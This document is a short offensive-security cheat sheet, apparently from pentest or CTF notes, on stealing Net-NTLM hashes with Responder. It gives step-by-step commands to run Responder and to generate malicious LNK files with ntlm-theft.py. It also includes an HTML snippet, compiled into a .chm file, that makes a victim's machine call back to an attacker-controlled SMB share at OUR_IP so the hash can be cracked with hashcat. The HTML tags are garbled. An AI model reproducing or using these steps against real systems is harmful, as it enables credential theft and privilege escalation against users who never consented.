 ## Net-NTLM Hash stealing with Responder

## Tools synergizing with Responder: ntlm-theft.py

### Requirements: The user you want to escalate to should react with your malicious file/responder SMB server in a way that it calls back to your responder listener to dump his Net-NTLM hash to crack with hashcat.

### Usage:

#### sudo responder -I tun0 (Turn on responder)

## There are various ways to steal hashes with responder, but they have all similar philosophy behind the technique

### .LNK Files

#### 1) python3 ntlm-theft.py -g all -s OUR_IP -f FOLDER (Generates any malicious file it can make (LNK included) all inside the specified folder name)

#### 2) sudo responder -I tun0 (Start responder)

#### 3) Upload malicious file to the target SMB server/target machine (Depends on the context of the use case your are dealing with)

#### 4) PROFIT

### .CHM Files

#### 1) Create an HTML document that points to your SMB server

#### <html<
####   <body<
####     <img src=\\OUR_IP\share\WHATEVER.png /<
####        </body<
#### </html<

#### 2) On a windows machine, use the HTML Help Workshop https://www.microsoft.com/en-us/download/confirmation.aspx?id=21138

#### 3) Open HTML Help Workshop then go to: File -> New -> Project. Save at any folder you like

#### 4) In the next window, click the box to include HTML files

#### 5) Select your created HTML file here

#### 6) In the tool bar, click the compile button. Then when prompted, click compile.

#### 7) Copy your compiled .chm file to your linux machine, then upload it to your target machine.

#### 8) PROFIT!

